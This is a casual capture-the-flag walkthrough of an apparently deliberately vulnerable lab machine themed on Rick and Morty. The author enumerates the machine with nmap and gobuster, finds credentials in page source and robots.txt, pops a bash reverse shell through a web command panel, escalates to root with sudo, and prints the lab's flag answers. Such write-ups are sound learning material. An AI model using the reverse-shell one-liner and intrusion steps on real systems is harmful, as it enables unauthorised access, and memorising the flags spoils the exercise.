






### Rick and Morty, how i did it at least
I dont usually do any of this stuff so this walkthrough is going to be pretty straight forward. We like web pentesting, its fun, this machine is pretty easy, there is many ways to solve it.

Ill probably do this more often as i do need to practice solving machines on thm and htb if i want to keep things going.


1. First throw nmap at it

-sC: default scripts

-sV: service version detection

-oN: save output to a file
``` bash
nmap -sC -sV -oN nmap_scan.txt <TARGET_IP>
```

2. After that we know we also have SSH, but first we go into our browser and search for anything in it hitting ctrl+u. We got a user:

``` HTML<>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```


3. We also hit it with some basic dirbuster to see if we can hit any new directories:

``` bash
gobuster dir -u http://10.10.246.189 -w /usr/share/wordlists/dirb/common.txt -t 40
```

Results:

```
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.10.246.189/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)

```

4. Looking into our robots.txt
```bash
curl http://10.10.246.189/robots.txt
```
Results
```
Wubbalubbadubdub
```



## Thoughts by this point

We definitely have a user as stated by the plain html, do we have a password? I need a login to test this stuff out

5. dirbuster again with more params:
```bash
gobuster dir -u http://10.10.246.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 40
```
oh
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.246.189
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 315] [--> http://10.10.246.189/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
Progress: 103142 / 882244 (11.69%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 103265 / 882244 (11.70%)
===============================================================
Finished
===============================================================

```

6. WE already got a dashboard pannel with ``` R1ckRul3s:Wubbalubbadubdub```

7. We've got a dashboard that lets us run commnands as the www-data user, which means we can probs pop a shell:



8. To avoid any weird shells we are just going to try a nice one liner (a bash one cause yeah). Bring up your listener:
```bash
nc -lvnp 4444
```

9. pop a one liner on the execution box in the dashboard and try to catch a shell
``` bash
bash -c 'bash -i >& /dev/tcp/10.6.8.184/4444 0>&1'
```

10. Good enaoughhhh




11. From here one we can traverse as usual:
```bash
ls -la
```
Result(we landed):


12. that ```Sup3rS3cretPickl3Ingred.txt``` is looking funny so i just ```cat``` it. Its a flag:
```
mr. meeseek hair
```
13. there is also ```clue.txt``` so same thing:
```
Look around the file system for the other ingredient.
```
that was kinda the plan, thx tho

14. At this point
```bash
cd /
```

```bash
cd home/rick/
```
15. There is a file here called 'second ingredients' so just cat that(its a flag):
```bash
1 jerry tear
```

## Before moving on
I was thinking of priv esc:
```bash
sudo -l
```
Turns out i couldve done that earlier
```
Matching Defaults entries for www-data on ip-10-10-246-189:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-246-189:
    (ALL) NOPASSWD: ALL

```

16. ```sudo su```

17. From here its just looking for flags lol, so i move back to the root dir

```bash
cd /
```

Then went to root dir

```bash
cd root
```

18. Do ls on a bish:



19. just cat 3rd.txt, thats the flag:
```bash
3rd ingredients: fleeb juice
```

## Funny box, 
this was funny to do at 1 am, its a pretty easy box, like very entry  level, there is actually very little to do, as soon as you have access to the dashboard you could probably do just about everything through the command execution box.

Its great to manage and understand gettint a reverse shell and nice to learn how to look for dirs and clues in general when first getting familiarized with a web app, noting crazy.

Ill do a harder one next time maybe idk.
